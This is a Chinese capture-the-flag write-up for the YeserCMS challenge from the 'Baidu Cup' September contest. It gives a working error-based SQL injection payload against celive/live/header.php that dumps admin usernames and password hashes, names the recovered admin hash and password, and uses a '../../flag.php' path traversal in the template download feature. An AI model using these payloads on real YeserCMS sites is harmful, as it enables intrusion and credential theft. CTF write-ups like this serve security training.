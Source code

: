 # YeserCMS

## 题目描述
---
```
新的CMS系统，帮忙测测是否有漏洞。
tips:flag在网站根目录下的flag.php中    
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---
SQL注入 任意文件下载

## 题目分值
---
50

## 解题思路
---

搜索公开的YeserCms漏洞，存在SQL注入和任意文件下载漏洞。

漏洞参考1：https://www.w00yun.top/bugs/wooyun-2015-0137013.html

漏洞参考2：https://www.seebug.org/vuldb/ssvid-94084

celive/live/header.php页面进行注入：

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```

![](images/ctf-2021-06-09-14-44-08.png)

可以看到密码是不完整的，修改`mid`方法的参数，将`1,32`修改为`32,64`获取剩余部分密码hash

![](images/ctf-2021-06-09-14-46-22.png)

得到`admin|ff512d4240cbbdeafada404677ccbe61`

![](images/ctf-2021-06-09-14-48-14.png)

口算出Hash值为`Yeser231`

登录，进入管理页面

![](images/ctf-2021-06-09-14-49-27.png)

在模板功能处，存在任意文件下载漏洞

![](images/ctf-2021-06-09-14-56-17.png)


抓包修改`&id=`后面的值为`&id=../../flag.php` 即可获得flag

![](images/ctf-2021-06-09-14-57-11.png)


## 参考
---




